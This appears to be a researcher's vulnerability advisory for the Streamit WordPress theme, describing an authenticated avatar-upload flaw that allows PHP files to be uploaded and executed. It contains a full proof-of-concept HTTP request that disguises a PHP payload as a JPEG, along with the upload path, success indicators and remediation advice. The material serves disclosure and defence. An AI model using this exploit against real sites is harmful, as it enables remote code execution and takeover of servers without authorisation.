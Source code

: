 # 🚀 Streamit WordPress Theme - Subscriber File Upload to RCE  

📌 **Product Information**
Platform: WordPress (Theme: Streamit)  
Affected Feature: Profile Avatar Upload  
Tested Vulnerability: Arbitrary PHP File Upload (Subscriber+)  
CVE: Not Assigned  
Severity: High (Authenticated File Upload => Remote Code Execution)  
CWE ID: CWE-434  
CWE Name: Unrestricted Upload of File with Dangerous Type  
Patched: ❌ Not Applicable  
Patch Priority: 🔴 High  
Date Published: June 12, 2025  
Researcher: Grac3  
Link Product: https://themeforest.net/item/streamit-video-streaming-wordpress-theme/29772881  

---

⚠️ **Summary of the Vulnerability**  
The Streamit WordPress Theme allows logged-in users with *subscriber* role to change their avatar via the following endpoint:

example :
```
/membership-account/your-profile/?view=change-password
```

However, the form handling this request does not properly validate uploaded file types when the `update_avatar` action is set. By abusing this, attackers can upload PHP files disguised as images and trigger Remote Code Execution.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**

```
POST /membership-account/your-profile/?view=change-password HTTP/2
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKW4qPnvjzFXSGYQM
Cookie: [VALID SUBSCRIBER COOKIE]

------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="user_avatar"; filename="bq.php"
Content-Type: image/jpeg

ÿØÿà
<?php echo 'HELLO WORLD'; ?>
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="update_avatar"

Change
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wpnonce"

[VALID_NONCE]
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="_wp_http_referer"

/membership-account/your-profile/?view=change-password
------WebKitFormBoundaryKW4qPnvjzFXSGYQM
Content-Disposition: form-data; name="action"

update-avatar
------WebKitFormBoundaryKW4qPnvjzFXSGYQM--
```

📁 **File Upload Behavior**
- The uploaded file must include the parameter `update_avatar` to be processed.
- Upon success, the file is saved in:

```
/wp-content/uploads/[year]/[month]/bq.php
```

✅ **Indicators of Success:**
- Status HTTP/2 200 OK
- Visiting `/wp-content/uploads/2025/06/bq.php` will execute the payload and print `HELLO WORLD`.

## 🔍 Where’s the Flaw?
- The file type is only superficially validated by MIME type.
- No server-side checks to restrict executable file types (like `.php`).
- Action `update_avatar` allows upload without checking user capabilities beyond basic authentication.

## 🔐 Recommendation
- Enforce strict MIME and extension checks server-side for file uploads.
- Restrict `update-avatar` functionality to roles above Subscriber.
- Disallow `.php`, `.phtml`, and similar dangerous file types explicitly.
- Monitor and log all uploads, especially in `/wp-content/uploads`.

## 📁 Script Features (Optional)
You may create a Python script to:
- Authenticate as a Subscriber.
- Upload a PHP payload via avatar change.
- Automatically retrieve uploaded path.
- Trigger uploaded file and verify execution.

## ⚠️ Disclaimer  
This information is provided for **educational and authorized testing** purposes only.  
**Do not** use it on systems without proper authorization.  
Unauthorized exploitation is illegal and unethical.
